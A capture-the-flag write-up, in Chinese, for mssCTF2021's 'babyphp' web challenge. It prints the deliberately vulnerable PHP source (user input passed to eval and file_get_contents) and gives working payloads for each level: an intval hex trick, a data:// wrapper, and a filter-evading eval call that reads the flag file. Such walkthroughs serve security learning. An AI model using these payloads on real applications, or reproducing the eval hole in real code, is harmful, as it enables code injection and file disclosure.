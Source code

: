 ## mssCTF2021

## Quals Web

### <font color='orange'>babyphp</font>



```php
<?php
error_reporting(0);
highlight_file(__FILE__);

$mss1 = $_POST['level1'];
$mss2 = $_POST['level2'];
$mss3 = $_POST['level3'];

if (intval($mss1) < 2021 && intval($mss1 + 2) > 2022) {

    $mss4 = file_get_contents($mss2,'r');
    if ($mss4 === "mssCTF is interesting!") {
        
        if (!preg_match("/[0-9]|\`|\^|\\$|\*|\%|\~|\+|\{|\}|\'|\\\"|\,|\<|\>|\.|\/|\?/i", $mss3)) {
            echo "Regex is so wonderful!";
            echo "<br/>";
            eval($mss3);
        }

        else {
            echo "Success is near!";
            echo "<br/>";
        }
    }

    else {
        echo "Do you like PHP?";
        echo "<br/>";
    }
}

else {
    echo "Level1 is a babe trick,try again!";
    echo "<br/>";
}
Regex is so wonderful!
<?php
$flag = "xdsec{5619454e-16a4-425f-be7d-7b8ada9808b9}";
```

**level1**

当`intval`里的是一个字符串时直接返回0，所以第一个判断直接为0了
而第二个因为进行了加减，会先进行进制转换

所以构建一个十六进制的就可以
payload

```
level1=0x1011
```

**level2**

```php
$mss4 = file_get_contents($mss2,'r');
$mss4 === "mssCTF is interesting!"
```

$mss2是一个字符串，而`file_get_contents`需要的是一个文件，如果直接传**mssCTF is interesting!**会报错

所以需要**data://**协议，讲这句话转换为数据流，就可使`file_get_contents`正常运作

所以构造payload

```php
mss2=data://text/plain,mssCTF is interesting!
```

**level3**

这个就相对简单了，就是读取文件而已，过滤了一些字符，但问题不大

payload

```php
highlight_file(next(array_reverse(scandir(getcwd()))));
```















